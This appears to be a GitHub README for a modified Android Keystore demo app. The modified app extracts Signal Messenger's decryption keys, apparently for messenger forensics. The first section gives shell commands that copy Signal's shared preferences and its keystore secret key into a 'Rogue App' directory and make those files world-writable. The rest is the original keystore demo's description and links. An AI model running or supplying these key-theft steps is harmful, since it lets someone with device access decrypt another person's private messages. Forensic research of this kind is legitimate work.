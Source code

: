 Clone and Edit for Signal Messenger from here.
https://github.com/sauravpradhan/AndroidKeyStore

This storage is used to decrypt Signal messenger, more information can be found here.
https://github.com/esby97/Messenger-Forensics

Usage for MY Application is as below.

# 1. copy SharedPreferences to Rogue App.
```
cd /data/data/com.android.keystore.androidkeystoredemo
mkdir shared_prefs
cd shared_prefs/
cp /data/data/org.thoughtcrime.securesms/shared_prefs/* ./
chmod 777 -R /data/data/com.android.keystore.androidkeystoredemo/shared_prefs/
```

# 2. copy Android Keystore SecretKey to Rogue App
```
cd /data/misc/keystore/user_0
ls | grep Signal
cp <UID>_USRPKEY_SignalSecret <UID>_USRPKEY_FAKE_SignalSecret
```

# 3. Open the Application and Check the extracted Keys

---

# AndroidKeyStore
Demo app for using Android Keystore System  :metal:

#APK Link
You can directly test the APK from the below link:
https://drive.google.com/file/d/0Byaspar4S5SEb09xbWN3STh3bG8/view?usp=sharing

#Refernces from
https://medium.com/@josiassena/using-the-android-keystore-system-to-store-sensitive-information-3a56175a454b
https://medium.com/@ericfu/securely-storing-secrets-in-an-android-application-501f030ae5a3



